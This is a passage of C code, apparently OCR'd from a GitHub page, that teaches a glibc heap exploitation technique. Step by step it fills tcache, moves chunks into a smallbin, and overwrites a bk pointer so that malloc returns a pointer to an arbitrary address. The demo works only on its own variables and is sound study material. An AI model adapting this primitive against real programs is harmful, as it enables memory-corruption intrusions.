 ```
        &amp;victim2, victim2);
    printf("heap address: %p\n", tmp-0x260);

    printf("\n2. change victim's data, make victim[1] = &amp;victim2-0x10\n");
    victim[1] = (uint64_t)(&amp;victim2)-0x10;
    printf("victim's vaule: [0x%lx, 0x%lx, 0x%lx, 0x%lx]\n", 
        victim[0], victim[1], victim[2], victim[3]);


    printf("\n3. choose a stable size and free five identical size chunks to tcache_entry list\n");
    printf("Here, I choose the size 0x60\n");
    for(int i=0; i&lt;5; i++)`{`
        t1 = calloc(1, 0x50);
        free(t1);
    `}`

    printf("Now, the tcache_entry[4] list is %p --&gt; %p --&gt; %p --&gt; %p --&gt; %p\n", 
        t1, t1-0x60, t1-0x60*2, t1-0x60*3, t1-0x60*4);

    printf("\n4. free two chunk with the same size like tcache_entry into the corresponding smallbin\n");

    s1 = malloc(0x420);
    printf("Alloc a chunk %p, whose size is beyond tcache size threshold\n", s1);
    pad = malloc(0x20);
    printf("Alloc a padding chunk, avoid %p to merge to top chunk\n", s1);
    free(s1);
    printf("Free chunk %p to unsortedbin\n", s1);
    malloc(0x3c0);
    printf("Alloc a calculated size, make the rest chunk size in unsortedbin is 0x60\n");
    malloc(0x100);
    printf("Alloc a chunk whose size is larger than rest chunk size in unsortedbin, that will trigger chunk to other bins like smallbins\n");
    printf("chunk %p is in smallbin[4], whose size is 0x60\n", s1+0x3c0);

    printf("Repeat the above steps, and free another chunk into corresponding smallbin\n");
    printf("A little difference, notice the twice pad chunk size must be larger than 0x60, or you will destroy first chunk in smallbin[4]\n");
    s2 = malloc(0x420);
    pad = malloc(0x80);
    free(s2);
    malloc(0x3c0);
    malloc(0x100);
    printf("chunk %p is in smallbin[4], whose size is 0x60\n", s2+0x3c0);
    printf("smallbin[4] list is %p &lt;--&gt; %p\n", s2+0x3c0, s1+0x3c0);

    printf("\n5. overwrite the first chunk in smallbin[4]'s bk pointer to &amp;victim-0x10 address, the first chunk is smallbin[4]-&gt;fd\n");
    printf("Change %p's bk pointer to &amp;victim-0x10 address: 0x%lx\n", s2+0x3c0, (uint64_t)(&amp;victim)-0x10);
    *(uint64_t*)((s2+0x3c0)+0x18) = (uint64_t)(&amp;victim)-0x10;

    printf("\n6. use calloc to apply to smallbin[4], it will trigger stash mechanism in smallbin.\n");

    calloc(1, 0x50);
    printf("Now, the tcache_entry[4] list is %p --&gt; %p --&gt; %p --&gt; %p --&gt; %p --&gt; %p --&gt; %p\n", 
        &amp;victim, s2+0x3d0, t1, t1-0x60, t1-0x60*2, t1-0x60*3, t1-0x60*4);

    printf("Apply to tcache_entry[4], you can get a pointer to victim address\n");

    uint64_t *r = (uint64_t*)malloc(0x50);
```